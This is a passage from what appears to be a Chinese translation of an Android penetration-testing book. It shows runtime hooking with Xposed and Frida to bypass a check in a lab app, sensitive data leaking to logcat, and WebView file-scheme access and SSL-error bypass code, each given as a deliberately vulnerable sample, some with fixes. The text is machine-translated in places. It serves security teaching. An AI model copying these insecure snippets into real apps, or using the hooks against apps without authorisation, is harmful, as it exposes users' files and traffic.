*   `-p`用于指定平台
*   `-o`为输出目录
*   `introspy.db`是我们从设备获取的输入文件

前面的命令如果成功，将创建一个名为`output`的文件夹，如下图所示：


此输出文件夹包含报表所需的所有文件，如下图所示：


在此文件夹中，在浏览器中打开`report.html`文件以查看报告。如下图所示：


如上图所示，Introspy 跟踪到应用正在进行的一个`SharedPreferences`调用：



报告中前面的图显示 Introspy 在应用打开`whatslock.xml`文件时跟踪了一个调用：



前面的图显示 Introspy 跟踪了启动应用时触发的意图。

# 使用 Exposed 框架进行挂钩

Xposed 是一个框架，它使利用人员能够编写自定义模块，用于连接到 Android 应用，从而在运行时修改其流。2012 年，rovo89 发布了 Xposed 框架。Xposed 框架的工作原理是将一个`app_process`二进制文件放在`/system/bin/`目录中，从而替换原来的`app_process`二进制文件。`app_process`是负责启动合子过程的二元体。基本上，当 Android 手机启动时，`init`运行`/system/bin/app_process`并将结果进程命名为`Zygote`。我们可以使用 Xposed 框架钩住从受精卵过程分叉的任何过程。

为了演示 Xposed 框架的功能，我利用了一个自定义的易受攻击应用。

易受攻击应用的程序包名称如下：

`com.androidpentesting.hackingandroidvulnapp1`

以下代码显示了易受攻击的应用的工作方式：


前面的代码有一个方法`setOutput`，即点击按钮时调用。调用`setOutput`时，**i**的值作为参数传递给它。如果您注意到，`i`的值被初始化为`0`。在`setOutput`**函数中，检查`i`**的值是否等于 1。如果`i`的值设置为`1`，本应用将显示**文本**。但是，由于初始化值为`0`，所以此应用始终显示文本**您无法破解它**。****

 ****在仿真器中运行应用如下图所示：


现在，我们的目标是编写一个 xpose 模块，在运行时修改此应用的功能，从而打印文本**破解**。

首先在模拟器中下载并安装 Xposed APK 文件。可从以下链接下载 Xposed：

[http://dl-xda.xposed.info/modules/de.robv.android.xposed.installer_v32_de4f0d.apk](http://dl-xda.xposed.info/modules/de.robv.android.xposed.installer_v32_de4f0d.apk) 使用以下命令安装下载的 APK 文件：

```
adb install [file name].apk

```

安装此应用后，启动它，您将看到以下屏幕：



在此阶段，在继续之前，确保已设置好所有内容。完成设置后，导航到**模块**选项卡，在那里我们可以看到所有已安装的 Expose 模块。下图显示当前我们没有安装任何模块：



我们现在将创建一个新模块，以实现在前面显示的目标应用中打印文本**Cracked**的目标。我们使用 Android Studio 来利用这个定制模块。

以下是简化流程的分步程序：

1.  The first step is to create a new project in Android Studio by choosing the **Add No Actvity** option as shown in the following figure. I named it `XposedModule`.

    

2.  The next step is to add the `XposedBridgeAPI` Library so that we can use Xposed specific methods within the module. Download the library from the following link:

    [http://forum.xda-developers.com/attachment.php?attachmentid=2748878 &d=1400342298](http://forum.xda-developers.com/attachment.php?attachmentid=2748878&d=1400342298)

3.  在`app`目录中创建一个名为`provided`的文件夹，并将此库放在`provided`目录中。
4.  现在，在`app/src/main/`目录中创建一个名为 assets 的文件夹，并创建一个名为`xposed_init`的新文件。

我们将在后面的步骤中向该文件添加内容。

完成前 4 个步骤后，我们的项目目录结构应如下图所示：


1.  Now, open up the `build.gradle` file in the `app` folder and add the following line under the `dependencies` section:

    ```
    provided files('provided/[file name of the Xposed library.jar]')
    ```

    在我的例子中，情况如下：

    

2.  Create a new class and name it `XposedClass`, as shown in the following figure:

    

    完成新建类后，项目结构如下图所示：

    

3.  Now, open up the `xposed_init` file that we created earlier and place the following content in it:

    ```
    com.androidpentesting.xposedmodule.XposedClass
    ```

    如下图所示：

    

4.  Now let's provide some information about the module by adding the following content to `AndroidManifest.xml`:

    ```
    <meta-data
    android:name="xposedmodule"
    android:value="true" />

    <meta-data
    android:name="xposeddescription"
    android:value="xposed module to bypass the validation" />

    <meta-data
    android:name="xposedminversion"
    android:value="54" />
    ```

    确保在应用部分中添加了上述内容，如以下屏幕截图所示：

    

5.  最后，在`XposedClass`中写入中的实际代码以添加钩子。

以下是一段实际上绕过目标应用中正在进行的验证的代码：


查看前面的代码，这就是我们所做的：

*   首先我们班正在实施`IXposedHookLoadPackage`
*   我们为方法`handleLoadPackage`编写了方法实现——这在我们实现`IXposedHookLoadPackage`时是强制性的
*   为`classToHook`和`functionToHook`设置字符串值
*   写入一个`if`条件，查看包名是否等于目标包名
*   如果包名匹配，则执行`beforeHookedMethod`中提供的自定义代码
*   在`beforeHookedMethod`中，我们将`i`的值设置为`1`，因此，当点击此按钮时，`i`的值将被视为`1`，因此**文本**将显示为 toast 消息

编译并像其他 Android 应用一样运行此应用，然后检查**Exposed 应用**的**模块**部分。您应该会看到一个名为**XposedModule**的新模块，如以下屏幕截图所示：


选择前面屏幕截图中显示的模块并重新启动仿真器。

一旦模拟器重新启动，运行目标应用并点击**破解我**按钮。


正如您在上图中所看到的，我们在运行时修改了应用功能，而没有实际修改其原始代码。

我们也可以通过点击日志部分来查看日志。

您可以观察源代码中的`XposedBridge.log`方法。这是用于记录以下屏幕截图所示数据的方法：


# 使用 Frida 的动态仪表

这个部分展示了一个名为 Frida 的工具的使用，它可以执行 Android 应用的动态检测。

## 弗里达是什么？

Frida 是一个开源动态检测工具包，它使逆向工程师和程序员能够调试正在运行的流程。它是一种客户机-服务器模型，使用 Frida core 和 Google v8 引擎来钩住进程。

与 Xposed 框架不同，它非常易于使用，不需要大量编程，也不需要重新启动设备。凭借 Android、iOS、Linux、Mac 和 Windows 上广泛的平台支持以及强大的 API，它是渗透测试期间创建反向工程工具的最佳工具之一。Frida 目前有 Python、node.js 和.NET 的 API 绑定，如果您想为其他编程语言创建绑定，可以提供这些绑定。

### 先决条件

正如[第 1 章](21.html#aid-3STPM1 "Chapter 1. Setting Up the Lab")*建立实验室*中所讨论的，我们需要以下内容才能让 Frida 使用我们的测试应用：

*   安卓手机或模拟器
*   安装在 Android 设备上的 Frida 服务器
*   在桌面上安装了一个客户端
*   已测试的`frida-ps –R`命令，用于查看进程列表

为了演示 Frida 的功能，我们将使用一个稍加修改的版本，该版本是我们用于 Xposed 框架的应用。但是，易受攻击应用的软件包名称仍然为：`com.androidpentesting.hackingandroidvulnapp1`

修改后的代码如下所示：



前面的代码包含一个修改版本的`setOutput`，它只返回`true`或`false`。调用`setOutput`时，将**i**的值传递给它，并将其初始化为`0`。如果`i`的值设置为`1`，则此应用将显示文本**和**。但是，由于初始化值为`0`，所以此应用始终显示文本**无法破解**。

现在让我们使用 Frida 将**破解的**消息打印到活动上；然而，我们不会像在 Xposed 框架部分那样进行编码。Frida 本质上是一个动态工具工具包，旨在用最少的编码来解决这个问题。

一旦你安装了这个应用，启动它，你就会看到我们之前看到的熟悉的屏幕。

Frida 提供了很多特性和功能，比如挂钩函数、修改函数参数、发送消息、接收消息等等。涵盖所有这些内容本身就需要一个完整的章节；不过，我们将提供足够的内容，让您开始了解 Frida 中更高级的主题。

让我们看一个例子，修改我们的`setOutput`的实现，使其始终返回`true`，而不考虑变量 i 的值。

### 与 Frida 进行动态挂钩的步骤

我们需要按照以下步骤完成`setOutput`方法的修改：

1.  使用连接的 API 将 Frida 客户端连接到应用进程。
2.  确定包含要分析/修改的功能的类。
3.  确定要挂钩的 API/方法。
4.  创建 JavaScript 脚本，使用`create_script`调用推送到流程。
5.  使用`script.load`方法将 JavaScript 代码推送到流程中。
6.  触发代码并查看结果。

我们使用以下代码连接到流程：

```
session = frida.get_remote_device().attach("com.androidpentesting.hackingandroidvulnapp1")
```

接下来，我们需要确定类。在我们的例子中，我们只有一个类，即`MainActivity`类，我们试图钩住的函数是`setOutput`。我们可以使用以下代码段来实现这一点：

```
Java.perform(function () {
    var Activity = Java.use("com.androidpentesting.hackingandroidvulnapp1.MainActivity");
    Activity.setOutput.implementation = function () {
      send("setOutput() got called! Let's always return true");
       return true;
     };
});
```

由于我们试图使`setOutput`始终返回`true`，因此我们使用`.implementation`函数更改了调用的实现。send 调用从这里的进程向桌面上的客户端发送消息，该进程用于发送消息。

有关 Frida 的 JavaScript API 的更多信息，请访问：

[http://www.frida.re/docs/javascript-api/#java](http://www.frida.re/docs/javascript-api/#java)

我们还可以修改方法的参数，如果需要，可以实例化新对象以将参数传递给方法。

整个`hook.py`将使用 Frida 钩住我们的`setOutput`方法，如下所示：

```
import frida
import sys

def on_message(message, data):
            print message

code ="""
Java.perform(function () {
    var Activity = Java.use("com.androidpentesting.hackingandroidvulnapp1.MainActivity");
    Activity.setOutput.implementation = function () {
        send("setOutput() got called! Let's return always true");
        return true;
    };
});
"""
session = frida.get_remote_device().attach("com.androidpentesting.hackingandroidvulnapp1")
script = session.create_script(code)
script.on('message', on_message)

print "Executing the JS code"

script.load()
sys.stdin.read()
```

让我们运行此 Python 脚本并触发应用上的**破解我**按钮的`onClick`事件：

```
C:\hackingAndroid>python hook.py
Executing the JS code
{u'type': u'send', u'payload': u"setOutput() got called! Let's return always true"}
{u'type': u'send', u'payload': u"setOutput() got called! Let's return always true"}

```

正如你所看到的，我已经按了两次**破解我**按钮，每次我们按下该按钮`setOutput`都会被呼叫，我们的钩子总是返回`true`。


正如我们所看到的，我们已经成功地通过使用 Frida 的动态检测改变了应用的行为，而无需重新启动或编写冗长的代码。我们建议您在他们的官方页面上浏览 Frida 编写良好的文档和示例。

# 基于日志的漏洞

经常检查`adb logs`在渗透测试期间为我们提供了大量信息。移动应用利用人员使用`Log`类将调试信息记录到设备日志中。在 Android 4.1 版本之前，任何其他具有`READ_LOGS`权限的应用都可以访问这些日志。Android 4.1 之后，此权限已被删除，只有系统应用才能访问设备日志。但是，具有物理访问权限的攻击者仍然可以使用`adb logcat`命令查看日志。还可能在根设备上以提升的权限编写恶意应用并读取日志。

Yahoo messenger 应用易受此攻击，因为它将用户聊天记录以及会话 ID 记录到日志中。任何拥有`READ_LOGS`权限的应用都可以访问这些聊天以及会话 ID。

以下是易受攻击的 Yahoo messenger 应用的详细信息：

包装名称：`com.yahoo.mobile.client.android.im`

版本：1.8.4

以下步骤显示此应用如何将敏感数据记录到 logcat 中。

打开终端并键入以下命令：

```
$ adb logcat | grep 'yahoo'

```

现在，打开 Yahoo messenger 应用，向任何号码发送短信。如下图所示：


现在，观察我们先前使用 adb 打开的终端中的日志，将显示通过侧通道泄漏的相同消息。


正如您在前面的输出中所看到的，我们在窗口中键入的消息正在日志中泄漏。

使用`adb`，还可以使用以下标志过滤**`adb`输出：**

 ***   `-v`冗长
*   `-d`调试
*   `-i`信息
*   `-e`错误
*   `-w`警告

使用这些用于显示输出的标志将仅显示所需类型的日志。

建议利用人员不要将任何敏感数据写入设备日志。**  **# 网络视图攻击

WebView 是一个允许应用在其中加载网页的视图。内部使用 Webkit 等 web 渲染引擎。Webkit 呈现引擎在 Android 版本 4.4 之前用于加载这些网页。在 Android 的最新版本（4.4 之后）上，它是使用 Chromium 完成的。当应用使用 WebView 时，它会在加载 WebView 的应用的上下文中运行。要从 Internet 加载外部网页，应用需要在其`AndroidManifest.xml`文件中具有 Internet 权限：

```
<uses-permission android:name="android.permission.INTERNET"></uses-permission>
```

在 Android 应用中使用 WebView 可能会给应用带来不同的风险，这取决于利用人员所犯的错误。

## 通过文件方案访问敏感本地资源

当 Android 应用使用具有用户控制输入值的 WebView 加载网页时，用户也可能在目标应用的上下文中从设备读取文件。

以下是易受攻击的代码：

```
public class MainActivity extends ActionBarActivity {

    EditText et;
    Button btn;
    WebView wv;

    @Override
    protected void onCreate(Bundle savedInstanceState) {
        super.onCreate(savedInstanceState);
        setContentView(R.layout.activity_main);

        et = (EditText) findViewById(R.id.et1);
        btn = (Button) findViewById(R.id.btn1);
        wv = (WebView) findViewById(R.id.wv1);

        WebSettings wvSettings = wv.getSettings();
        wvSettings.setJavaScriptEnabled(true);

        btn.setOnClickListener(new View.OnClickListener() {
            @Override
            public void onClick(View v) {

 wv.loadUrl(et.getText().toString());
            }
        });
    }

}
```

运行此代码时，屏幕上显示以下内容：


现在，输入网站 URL 将导致打开网页。我正在输入一些示例 URL，如下图所示：


基本上，这就是应用的功能。但是，攻击者也使用方案`file://`**读取文件，如下图所示：**

 **

正如您在上图中所看到的，我们可以从 SD 卡中读取内容。这需要在应用的`AndroidManifest.xml`文件中具有`READ_EXTERNAL_STORAGE`权限。此应用已具有此权限：

```
<uses-permission android:name="android.permission.READ_EXTERNAL_STORAGE"></uses-permission>
```

此外，我们可以读取应用有权访问的任何文件，例如共享首选项。

如以下代码段所示验证用户输入将解决此问题：

```
public class MainActivity extends ActionBarActivity {

    EditText et;
    Button btn;
    WebView wv;

    @Override
    protected void onCreate(Bundle savedInstanceState) {
        super.onCreate(savedInstanceState);
        setContentView(R.layout.activity_main);

        et = (EditText) findViewById(R.id.et1);
        btn = (Button) findViewById(R.id.btn1);
        wv = (WebView) findViewById(R.id.wv1);

        WebSettings wvSettings = wv.getSettings();
        wvSettings.setJavaScriptEnabled(true);

        btn.setOnClickListener(new View.OnClickListener() {
            @Override
            public void onClick(View v) {

 String URL = et.getText().toString();
 if(!URL.startsWith("file:")) {

 wv.loadUrl(URL);

 }
 else {
 Toast.makeText(getApplicationContext(), "invalid URL", Toast.LENGTH_LONG).show();
 }
            }
        });
    }

}
```

早些时候，应用正在接收用户输入，并在没有进一步验证的情况下对其进行处理。现在，前面的代码正在检查用户输入的输入是否以`file`：方案开始，如下行所示。如果是，它将抛出一个错误。

```
if(!URL.startsWith("file:")) {

```

**  **## 其他网络视图问题

当应用使用`addJavaScriptInterface()`方法时，必须小心，因为这将在本机 Java 代码和 JavaScript 之间提供一个桥梁。这意味着您的 JavaScript 可以调用本机 Java 功能。可以将自己的代码注入 WebView 的攻击者可以滥用这些桥接功能。

与此方法相关的常见漏洞之一是 CVE-2012-6636。您可以通过以下链接了解有关此问题的更多信息：

[http://50.56.33.56/blog/?p=314](http://50.56.33.56/blog/?p=314)

除此之外，忽略 SSL 警告是利用人员的一个常见错误。在堆栈溢出处简单搜索 WebView SSL 错误将产生以下代码段：

```
@Override         
public void onReceivedSslError(WebView view, SslErrorHandler handler,                 SslError error) 
{            
   handler.proceed();
}
```

前面的代码片段将忽略任何 SSL 错误，从而导致 MitM 攻击。**  **# 总结

在本章中，我们讨论了帮助我们减少测试客户端攻击所花费时间的各种工具。我们已经深入讨论了 Drozer 如何测试 Android 应用使用的活动、内容提供商和广播接收器。我们还了解了 Cydia 衬底、Introspy 和 Xposed 框架如何用于动态分析。最后，我们学习了如何使用 Frida 进行动态检测，而无需太多麻烦和编码。然后，我们在本章结束时讨论了在日志中记录敏感信息的问题。

在下一章中，我们将研究 Android 设备上可能发生的各种攻击。************